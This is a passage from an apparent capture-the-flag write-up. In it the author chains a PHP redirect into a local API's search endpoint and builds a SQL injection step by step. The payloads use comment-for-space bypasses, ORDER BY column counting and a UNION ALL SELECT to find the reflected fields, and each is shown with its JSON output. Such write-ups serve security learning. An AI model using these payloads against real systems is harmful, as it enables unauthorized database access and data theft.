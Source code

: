 ```json
  }
}
```

I took note of the username and tried injecting some SQL. The code was removing spaces, so I had to use `/**/` instead.

Next, I tried the payload from the POC, but it failed. So I had to start experimenting to build my own injection.

I used `Order By` to figure out how many fields needed to be returned by the query. 

```php
header("Location: http://localhost:3000/api/v1/users/search?q=')/**/Order/**/By/**/27/**/--/**/-");
```

27 fields worked. 

```json
{"body": "{\"data\":[{\"username\":\"susanne\",\"avatar\":\"//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce\"}],\"ok\":true}"}

```

But 28 failed. 

```php
header("Location: http://localhost:3000/api/v1/users/search?q=')/**/Order/**/By/**/28/**/--/**/-");
```

```json
{
  "webhookUrl": "http://10.10.14.7:8000/payload",
  "monitoredUrl": "http://10.10.14.7/redirect.php",
  "health": "down"
}
```

I knew I needed to return 27 fields in my union query. I had to find out which of those fields were returned in the JSON.

```php
header("Location: http://localhost:3000/api/v1/users/search?q='/**/AND/**/1=2)/**/UNION/**/ALL/**/SELECT/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/FROM/**/user/**/where/**/('%25'%3D'");
```

I could use the 3rd and 15th fields to extract data.

```json
{
  "data": [
    {
      "username": "3",
      "avatar": "//1.gravatar.com/avatar/15"
    }
  ],
  "ok": true
}
```
